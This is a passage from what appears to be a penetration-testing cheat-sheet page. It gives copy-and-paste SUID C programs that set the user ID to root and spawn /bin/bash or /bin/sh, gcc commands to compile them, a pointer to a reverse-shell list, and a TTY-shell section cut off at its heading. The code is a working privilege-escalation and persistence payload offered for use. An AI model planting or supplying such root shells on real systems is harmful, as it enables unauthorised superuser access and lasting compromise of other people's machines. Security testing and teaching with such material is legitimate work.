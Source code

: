 </table>
</div>

## SUID Binary

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and pate examples for various shells:

### SUID C Shell for /bin/bash   

{% highlight c %}
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
{% endhighlight %}

### SUID C Shell for /bin/sh

{% highlight c %}
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
{% endhighlight %}


### Building the SUID Shell binary

{% highlight bash %}
gcc -o suid suid.c  
{% endhighlight %}

For 32 bit:

{% highlight bash %}
gcc -m32 -o suid suid.c  
{% endhighlight %}

## Reverse Shells

See [Reverse Shell Cheat Sheet](/blog/reverse-shell-cheat-sheet/) for a list of useful Reverse Shells.

## TTY Shells

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like <code>su</code> from reverse shells.

### Python TTY Shell Trick  
